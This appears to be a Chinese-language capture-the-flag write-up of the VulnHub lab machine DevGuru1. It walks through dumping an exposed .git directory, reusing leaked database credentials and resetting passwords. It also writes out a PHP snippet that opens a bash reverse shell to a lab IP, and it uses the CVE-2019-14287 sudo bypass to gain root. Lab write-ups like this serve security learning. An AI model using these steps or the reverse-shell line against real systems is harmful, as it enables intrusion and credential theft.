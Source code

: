 +++
title = '0x075 DevGuru1'
date = 2024-10-11T14:25:59+08:00
draft = false
private = true
show_reading_time = true
categories = 'vulnhub'
+++



# 端口扫描

![](/vulnhub_img/WEBRESOURCEa6bd581c7fa48e8387927f35ab208b15image.png)

![](/vulnhub_img/WEBRESOURCEc1ec935487287800c122de86ac7c5ca1image.png)

![](/vulnhub_img/WEBRESOURCEab0eb3cd79e56fd6201ff24ccc811738image.png)

# 渗透测试

发现.git目录，通过githack下载下来，然后发现了数据库账号密码：

![](/vulnhub_img/WEBRESOURCE8dd235d87d2355774597af94e8fb30efimage.png)

'database'   => 'octoberdb',

'username'   => 'october',

'password'   => 'SQ66EBYx4GT3byXH',

![](/vulnhub_img/WEBRESOURCEbf21fb3ee14daec200095b3a301244b8image.png)

同时gobuster发现：

adminer页数据库管理工具

![](/vulnhub_img/WEBRESOURCE3ced553e1389cd923303f402a70e2915image.png)

登录成功：

![](/vulnhub_img/WEBRESOURCE97a08d1024d194c8ab57d630ba5799b6image.png)

密码hash，但是很可惜，没查到：

![](/vulnhub_img/WEBRESOURCEe0771862accbd7f518a859a72f8575cdimage.png)

但是可以添加用户：

然后又是小技巧了，hash id 和hash-identifier认不出来，但是百度是有案例的，直接把前面一截拿到百度搜：

![](/vulnhub_img/WEBRESOURCE92ac5b683cd5ef0df12b828557a6c627image.png)

![](/vulnhub_img/WEBRESOURCEd13a3917207d11119925f9abac161e5bimage.png)

![](/vulnhub_img/WEBRESOURCE94324b682221c4a4caa0ddaf3cc979e5image.png)

研究了半天这里的漏洞利用，查了资料原来是这里就可以直接修改代码执行：

markup:

{{ this.page.PoisonVar }}

![](/vulnhub_img/WEBRESOURCEdc09ba803a04971615e53d09065fccecimage.png)

code:

function onStart()

{

$this->page["PoisonVar"] = exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.5.66/8888 0>&1'");

}

![](/vulnhub_img/WEBRESOURCE8977ba30df11367a2b749669714d7359image.png)

点

![](/vulnhub_img/WEBRESOURCEa76361b23e24377e0f540594b22e9401image.png)

# 提权

秒了再说：

![](/vulnhub_img/WEBRESOURCEed85c3d72e11a842fd81fdfb3eab3d46image.png)

看一下作者留下的提权路径：

![](/vulnhub_img/WEBRESOURCE9ad82454162eda220198d40c97696638image.png)

数据库：

; Database to use. Either "mysql", "postgres", "mssql" or "sqlite3".

DB_TYPE             = mysql

HOST                = 127.0.0.1:3306

NAME                = gitea

USER                = gitea

; Use PASSWD = your password for quoting if you use special characters in the password.

PASSWD              = UfFPTF8C8jjxVF2m

![](/vulnhub_img/WEBRESOURCEd4c4b971dc31e9290ecbfbce57f60b0cimage.png)

这里可以用mysql命令行，也可以用之前的adminer，当然图形化好一点：

![](/vulnhub_img/WEBRESOURCE1a7746e5adf642ed47b6f9a2ddfba372image.png)

修改密码为这个：

pbkdf2算法：

123456

4f6289d97c8e4bb7d06390ee09320a272ae31b07363dbee078dea49e4881cdda50f886b52ed5a89578a0e42cca143775d8cb

![](/vulnhub_img/WEBRESOURCE735b82cf09ae0d4270186b615b8d10b7image.png)

添加反弹shell:

![](/vulnhub_img/WEBRESOURCE9ebc7eb7325b601c6413cc7f46ba6e17image.png)

随便修改一个文件：

![](/vulnhub_img/WEBRESOURCE55b5bc413dbdc5d73faa1ddafc18cdfeimage.png)

就可以拿到

![](/vulnhub_img/WEBRESOURCE2d69b4d86045fa6b425400cf56ddd452image.png)

sudo 提权：

这里利用了CVE-2019-14287 sudo权限绕过漏洞，在允许使用所有用户，但是仅仅不允许使用root用户的时候可以尝试，加上

-u#-1

![](/vulnhub_img/WEBRESOURCEf6513c76974a24d98418cd526f314a57image.png)